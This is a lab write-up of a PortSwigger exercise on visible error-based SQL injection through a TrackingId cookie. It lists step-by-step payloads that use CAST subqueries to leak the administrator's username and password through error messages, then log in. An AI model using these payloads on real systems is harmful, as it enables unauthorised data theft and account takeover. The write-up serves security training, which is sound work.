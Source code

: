 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/75b1abf1-d2a6-46c7-adeb-bbeedd147507)

## Solution :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/7191fb25-586f-4bd8-978b-a28860a600c6)

Query made - 

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'
```

Input `'` in the TrackingID parameter since it is vulnerable.

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>''
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/43dae4bd-6b44-4a01-be27-8f02c6e247ee)

In the response, notice the verbose error message.it means the injection is likely inside a single-quoted string.To solve this in the ping request, you can use comment characters to block the rest of the query.

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>''--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/25d233e0-5a2f-4bbc-b686-aa8b6a8eaf57)

 Now add  payload using CAST conditional expresiions.
 
 >The CAST() function to achieve this. It enables you to convert one data type to another.It is used to trick a system into showing its hidden data by making it think the data is something else

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'' AND CAST((SELECT 1) AS int)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5d5875fd-5ab4-48a6-8b8b-517736f38c4b)

error saying that an AND condition must be a boolean expression.so Modify the condition.

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'' AND 1=CAST((SELECT 1) AS int)--
```
what happening here what ever value that `CAST((SELECT 1) AS int)` this is getting is stored in 1 and it is comparing using `And`
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/07408029-26bd-4a0a-8984-60b3db8ab114)

This is a valid query again.

#### Check Whether the users table is present  -

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'' AND 1=CAST((SELECT username FROM users) AS int)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5c615bcc-593d-45f7-abaf-dfeb35d0ea00)

Error due to  due to a character limit .Delete or remove some of the original value of the `TrackingId= 'cookie'` to free up some space.

 ![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/f15189da-d4bc-43e7-8e4c-e43d8d4a44c9)

Again error because there more than one row returned by the subquery.Lets modify it.

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/afe108bf-32be-465e-b25e-87c456509c92)

By This  error message we can understand it leaked the first username from the users table as `administrator`

#### Finding the password 

By the error we find out that administrator is the first user in the table.I changed the qurey from `username` to `password` it will display the password of first username that is `administrator`

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/14596f34-012e-4db1-af9e-d1e514a9a86b)

password of  `administrator` is `9p8npbwszznsmfhs8anl`

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b9f89bba-3bd1-42f1-a2be-363da01bfd5d)

successfully logged in as administrator.


